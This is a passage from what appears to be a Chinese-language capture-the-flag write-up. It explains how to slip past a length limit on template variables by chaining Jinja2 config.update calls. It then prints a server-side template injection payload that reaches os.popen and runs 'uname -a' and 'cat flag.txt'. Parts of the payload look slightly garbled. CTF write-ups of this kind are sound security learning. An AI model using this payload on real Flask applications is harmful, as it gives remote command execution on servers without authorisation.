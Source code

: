 <img src="./images/1.png" alt="">

> - 但同时发现限制条件每个变量传参的长度不能超过 21，注意到 `{adjective}.{person}`，可以利用这里来扩展输入的长度
> - Payload

```python
{%set x=config%}
{%set y=x.update%}
{{y(a=x
__class__.__init__)}}
{{config}}

{%set x=config%}
{%set y=x.update%}
{{y(a=x.a
__globals__['os'])}}
{{config.a}}

{%set x=config%}
{%set y=x.update%}
{{y(a=x.a    
popen}}
{config.a}

{%set x=config%}
{%set y=x.a%}
{{y('uname -a')
read()}}
{{config.a}}

{%set x=config%}
{%set y=x.a%}
{{y('cat flag.txt')
read()}}
{{config.a}}
```
## notrequired
### 题目描述
```
Hello I am cheemsloverboi33! I made a php website. Can you do a quick security check on it?
```
